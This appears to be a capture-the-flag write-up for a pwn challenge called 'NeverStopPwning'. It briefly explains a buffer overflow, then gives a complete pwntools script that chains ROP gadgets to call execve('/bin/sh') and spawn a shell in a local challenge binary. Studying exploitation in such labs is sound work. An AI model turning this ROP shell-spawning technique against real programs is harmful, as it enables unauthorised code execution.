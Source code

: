 # NeverStopPwning
> Author: 堇姬Naup

## Description
Basic Pwn
It have Buffer overflow, and it have enough gadget can do execve.

Let
- rax = 0x3b
- rdi = /bin/sh address
- rsi = 0
- rdx = 0
- and call syscall

You will get shell.

## exploit
```python
from pwn import *

r=process("./chal")
'''
0x000000000044fc47 : pop rax ; ret
0x0000000000401e4f : pop rdi ; ret
0x0000000000409ebe : pop rsi ; ret
0x00000000004859cb : pop rdx ; pop rbx ; ret
0x0000000000487dca : mov qword ptr [rsi], rdx ; ret
0x0000000000401c04 : syscall
'''

#context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(r)

pop_rax_ret = 0x44fc47
pop_rdi_ret = 0x401e4f
pop_rsi_ret = 0x409ebe
pop_rdx_rbx_ret = 0x4859cb

mov_rdx_to_rsi_ret = 0x487dca
syscall = 0x401c04

binsh = 0x4c7a30

ROPchain1 = p64(pop_rdx_rbx_ret) + b'/bin/sh\x00'.ljust(8,b'\x00') + p64(0)
ROPchain1 += p64(pop_rsi_ret) + p64(binsh)
ROPchain1 += p64(mov_rdx_to_rsi_ret)

ROPchain2 = p64(pop_rax_ret)+p64(0x3b)
ROPchain2 += p64(pop_rdi_ret) + p64(binsh)
ROPchain2 += p64(pop_rsi_ret) + p64(0)
ROPchain2 += p64(pop_rdx_rbx_ret) + p64(0) + p64(0)
ROPchain2 += p64(syscall)

print("BINSH: ",hex(binsh))

ROPchain = b'a' * 0x10 + ROPchain1 + ROPchain2

r.sendline(ROPchain)

r.interactive()
```
